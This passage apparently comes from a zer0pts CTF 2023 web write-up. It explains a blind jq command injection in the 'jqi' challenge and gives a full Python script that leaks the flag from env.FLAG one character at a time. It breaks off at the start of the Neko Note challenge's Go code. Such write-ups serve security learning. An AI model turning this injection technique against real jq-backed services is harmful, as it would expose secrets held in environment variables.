 Although double quotation marks are blocked, the backslash `\` is not blocked. Therefore, by combining two conditions, you can insert your own jq command and achieve command injection. You can retrieve the flag using `env.FLAG`.

However, the problem is that the result is not returned, so it is a blind injection. You need to leak one character at a time. Below is the exploit from the [zer0pts CTF 2023 writeup (4 web challs)](https://blog.arkark.dev/2023/07/17/zer0pts-ctf/):

``` js
import httpx
import string

# BASE_URL = "http://localhost:8300"
BASE_URL = "http://jqi.2023.zer0pts.com:8300"

CHARS = "}_" + string.ascii_letters + string.digits


def make_str(xs: str) -> str:
    return "(" + "+".join([f"([{ord(x)}] | implode)" for x in xs]) + ")"


def is_ok(prefix: str) -> bool:
    res = httpx.get(
        f"{BASE_URL}/api/search",
        params={
            "keys": "name",
            "conds": ",".join([
                "\\ in name",
                f"))] + [if (env.FLAG | startswith({make_str(prefix)})) then error({make_str('x')}) else 0 end] # in name"
            ]),
        },
    )
    return res.json()["error"] == "something wrong"


known = "zer0pts{"
while not known.endswith("}"):
    for c in CHARS:
        if is_ok(known + c):
            known += c
            break
    print(known)
print("Flag: " + known)
```

### Neko Note (26 solves)

This is another classic note app. The core code is as follows:

``` go
var linkPattern = regexp.MustCompile(`\[([0-9a-f]{8}-[0-9a-f]{4}-4[0-9a-f]{3}-[0-9a-f]{4}-[0-9a-f]{12})\]`)

// replace [(note ID)] to links
func replaceLinks(note string) string {
  return linkPattern.ReplaceAllStringFunc(note, func(s string) string {
    id := strings.Trim(s, "[]")

    note, ok := notes[id]
    if !ok {
      return s
    }

    title := html.EscapeString(note.Title)
```